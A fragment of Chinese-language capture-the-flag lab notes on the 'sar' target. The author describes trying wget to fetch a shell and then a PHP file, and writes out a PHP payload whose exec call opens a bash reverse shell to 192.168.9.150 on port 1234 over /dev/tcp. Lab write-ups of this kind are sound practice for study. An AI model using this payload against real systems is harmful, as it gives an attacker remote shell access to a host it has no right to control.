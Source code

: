 ![](/images/sar--打靶笔记/1752587179647.png)

啊？

‍

尝试了wget远程下载shell，发现不能附加执行权限，导致下载shell也没用。

尝试wget远程下载php

‍

`test.txt`：`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.9.150/1234
0>&1'");?>`

![](/images/sar--打靶笔记/1752587179870.png)
